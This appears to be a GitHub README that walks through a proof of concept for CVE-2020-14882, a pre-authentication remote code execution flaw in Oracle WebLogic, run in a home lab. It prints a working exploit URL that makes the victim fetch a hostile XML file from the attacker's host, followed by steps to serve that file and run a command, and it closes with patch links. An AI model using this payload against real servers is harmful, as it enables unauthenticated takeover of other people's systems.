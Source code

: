 # WebLogic RCE Vulnerability - CVE-2020-14882

- **Introduction**

CVE-2020-14882 is a remote code execution (RCE) flaw in the Console component of Oracle WebLogic Server. The pre-authentication flaw was given an attack complexity of “low” and highlighted as “easily exploitable” by Oracle resulting in it being assigned a critical CVSSv3 score of 9.8. Successful exploitation would allow an unauthenticated attacker to compromise the Oracle WebLogic server over HTTP and take complete control of the host. (https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)

<p align="center">
  <img width="400" height="200" src="https://1.bp.blogspot.com/-HMAjWrWp82g/X6jHH5t4eQI/AAAAAAAALAY/Sh_rTLr2PV0VPyKbX_Ft4glMI86SjBGpQCLcBGAsYHQ/s16000/Oracle+Weblogic+flaw.png">
</p>

- **Score Severity - CVSS 3** :warning:

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/j5L3z3W/Capturar.png">
</p>
<br>

Supported versions that are affected are **10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0.**
# **Exploring** - POC :heavy_exclamation_mark:

### Environment :computer:

<span style="color:red">Victim (WebLogic Server): 192.168.0.15 - Windows 10 PRO running WebLogic Server.</span>
<br>
<span style="color:blue">Attacker (Hosted file XML): 192.168.0.16 - Kali Linux - GNU/Linux - Debian.</span>

1. For the first step, let's create a python file that will exploit the vulnerability in weblogic.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/xHymN9d/1.png">
</p>

Payload:

`http://{}:{}/console/images/%252E%252E%252Fconsole.portal' \
		'?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext' \
		'(%22http://192.168.0.16:8000/Documents/teste.xml%22)'.format('192.168.0.15', '7001')`

This payload will call a spring framework XML library to send a request to a server in the attacker's domain looking for the **teste.xml** file.

2. We need to prepare the XML file that will be called by the victim. We created a standard XML structure, however, we included the framework and the value fields are important in this step because they will be executed on the victim. For this example, we are calling the Windows calculator file.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/1n3Ftj5/2.png">
</p>

3. On the attacker's host, we need to create a server with the XML file to be requested by the victim. For ease, we use our own python server http.server.

<p align="center">
  <img width="500" height="50" src="https://i.ibb.co/WpRLY6m/3.png">
</p>


4. Starting the attack :dart:. We start the script from **step 1**, 
In this step, we were able to identify the log of the XML file calls being made by the victim
<p align="center">
  <img width="600" height="100" src="https://i.ibb.co/8g14HZV/4.png">
</p>

5. RCE successfully executed :boom:. On the victim's side, it is possible to view the remote execution (RCE) of the windows calculator


<p align="center">
  <img width="600" height="400" src="https://i.ibb.co/q16796k/5.png">
</p>


## Conclusion
On October 28, security researcher named Jang published a blog post (in Vietnamese) about CVE-2020-14882, including partial details that could be used for a PoC. Jang is no stranger to WebLogic flaws, being credited with discovering and reporting CVE-2020-2555 to Oracle, which patched the vulnerability in its January 2020 CPU. In March, Jang confirmed that CVE-2020-2555 was not completely fixed. The bypass for CVE-2020-2555 was disclosed by another researcher, Quynh Le of VNPT Information Security Center (ISC). Both Le and Jang are credited with reporting this bypass, which is identified as CVE-2020-2883. (https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)


### Some links to help fix<br>
* Oracle WebLogic: CVE-2020-14882 : Critical Patch Update (Doc ID 2771503.1) (https://support.oracle.com/knowledge/More%20Applications%20and%20Technologies/2771503_1.html)

* Oracle Critical Patch Update Advisory - October 2020
(https://www.oracle.com/security-alerts/cpuoct2020traditional.html)

* How to Mitigate the Impact of CVE-2020-14882 Weblogic
(https://support.oracle.com/knowledge/Oracle%20Database%20Products/2733752_1.html)

* Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware
(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14882)


#### Vulnerability Fixed ✅

